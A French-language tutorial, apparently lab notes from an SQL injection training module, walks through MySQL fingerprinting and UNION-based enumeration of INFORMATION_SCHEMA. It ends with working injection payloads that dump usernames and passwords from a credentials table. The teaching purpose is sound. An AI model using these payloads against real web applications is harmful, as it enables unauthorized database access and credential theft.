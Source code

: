 ```yaml
---
title:  "Énumération de Bases de données"
category: "Exploitation"
tag: "Principes de base de l'injection SQL"
---
```

Auparavant, nous avons vu comment faire les injections SQL et leurs différents types. Cette section mettra tout cela à profit afin de recueillir des informations provenant des bases de données.

# Empreinte MySqL

Avant de faire de l'énumération d'une base de donnée, il est intéressant de savoir avec quel type de SGBD nous sommes en train d'intéragir. La raison pour cela est que chaque SGBD a ses différentes requêtes, et le connaître permettra de savoir quelles requêtes utiliser.

Nous pouvons deviner certains SGBD. Si par exemple le serveur web renvoie une réponse HTTP de **Apache ou Nginx**, on peut supposer que le serveur web tourne sur Linux, et que le SGBD est **MySQL**.\
Le même raisonnement s'applique avec le SGBD Microsoft si le serveur web est **IIS**, on peut supposer qu'il s'agit de **MSSQL**.

Comme nous ciblons MySQL dans ce module, on va prendre l'empreinte des bases de données MySQL.

| Payload          | Quand l'utiliser                                | Résultat attendu                                          | Mauvais résultat                                                       |
|------------------|-------------------------------------------------|-----------------------------------------------------------|------------------------------------------------------------------------|
| SELECT @@version | Lorsque nous disposons d'une requête complète   | Version de MySQL 'i.e. 10.3.22-MariaDB-1ubuntu1'          | Dans MSSQL, il renvoie la version de MSSQL. Erreur avec d'autres SGBD. |
| SELECT POW(1,1)  | Lorsque nous n'avons que des données numériques | 1                                                         | Erreur avec d'autres SGBD                                              |
| SELECT SLEEP(5)  | Sortie aveugle/absence de sortie                | Retarde la réponse de la page de 5 secondes et renvoie 0. | Ne retarde pas la réponse avec d'autres SGBD                           |


# Base de données INFORMATION_SCHEMA 

Afin d'extraire des données des tables en utilisant **UNION SELECT**, nous devons formuler correctement nos requête **SELECT**.
Pour cela, nous avons besoin des informations suivantes :
- La liste des bases de données.
- La liste des tables dans chaque base de données.
- La liste des colonnes de chaque table.

Pour obtenir toutes ces informations, nous devons utiliser la base de donnée [INFORMATION_SCHEMA](https://dev.mysql.com/doc/refman/8.0/en/information-schema-introduction.html), qui contient les metadata à propros des BDD et des tables présent dans le serveur.

De plus, si nous devons faire un appel **SELECT** sur une table qui n'est pas dans la base de données courante, nous devons spécifier la base de données en question.
Dans le cas contraire, le **SELECT** essayera de trouver dans la base de données courante et ne trouvera pas les informations nécessaires.

Pour cela, il est nécessaire d'utiliser la syntaxe suivante :

```sql
SELECT * FROM my_database.users;
```

Avec les informations de la base **INFORMATION_SCHEMA**.

# SCHEMATA

Pour commencer l'énumeration, nous devons trouver les bases de données disponible sur le SGBD. La table **[SCHEMATA](https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html)** dans la base de données **INFORMATION_SCHEMA** contient les informations (dont les **noms des BDD**) à propos de toutes les bases du serveur. 

```sql
mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

+--------------------+
| SCHEMA_NAME        |
+--------------------+
| mysql              |
| information_schema |
| performance_schema |
| ilfreight          |
| dev                |
+--------------------+
```
> Les 3 premières bases de données sont des BDD MySQL par défault, et sont présent dans n'importe quel serveur. On les ignore pour l'énumération.

On peut appliquer ce qu'on a vu dans la requête **UNION** pour récupérer les bases :

```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```
<center><img src="/assets/images/htbAcademy/SQLInjectionFundamentals/INFORMATIONSCHEMA1.png" alt="Alt text"></center>

Dans l'exemple, on voit 2 bases de données : ifreight et dev.
Faisons un **SELECT database()** pour découvrir la abse de donnée utilisée par l'application web pour récupéré les ports.
```sql
cn' UNION select 1,database(),2,3-- -
```
<center><img src="/assets/images/htbAcademy/SQLInjectionFundamentals/INFORMATIONSCHEMA2.png" alt="Alt text"></center>

On voit qu'il s'agit ici de la base **ifreight**.

# Table
Bien que dans l'exemple précédent, la base de données ifreight soit utilisée, il peut être intéréssant de voir ce que contient la base dev.

Pour cela nous devons récupéré les tables de la BDD **dev**.
La table **[TABLES](https://dev.mysql.com/doc/refman/8.0/en/information-schema-tables-table.html)** contient des informations sur toutes les tables de toutes les bases de données.

Deux colonnes sont intéréssantes :
- **TABLE_NAME** qui contient le nom des tables.
- **TABLE_SCHEMA** qui indique à quelle base de données la table appartient.

Dans notre exemple, le payload suivant serait fonctionnel :

```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

<center><img src="/assets/images/htbAcademy/SQLInjectionFundamentals/INFORMATIONSCHEMA3.png" alt="Alt text"></center>

Ici, la table qui pourrait être intéréssante est **credentials**.

# Colonnes

Pour dump les données de la table **credentials** on a besoin de savoir le nom des colonnes de la tables, qui peuvent être trouvées dans la table **COLUMNS** de la base **INFORMATION_SCHEMA**.

Si on veut récupéré par exemple les colonnes, avec leurs tables associées et la base de données correspondante, sur l'exemple habituel cela donne :

```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

<center><img src="/assets/images/htbAcademy/SQLInjectionFundamentals/INFORMATIONSCHEMA4.png" alt="Alt text"></center>

On peut voir qu'on a les colonnes **username et password** dans la table **credentials**, qui elle même appartient à la base de données **dev**.

# Données

Enfin, nous arrivons au moment qui nous intéresse, celui de récupérer les données (ici username et password de la table credential).

Avec la commande UNION, cela donne :
```sql
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```


<center><img src="/assets/images/htbAcademy/SQLInjectionFundamentals/INFORMATIONSCHEMA5.png" alt="Alt text"></center>




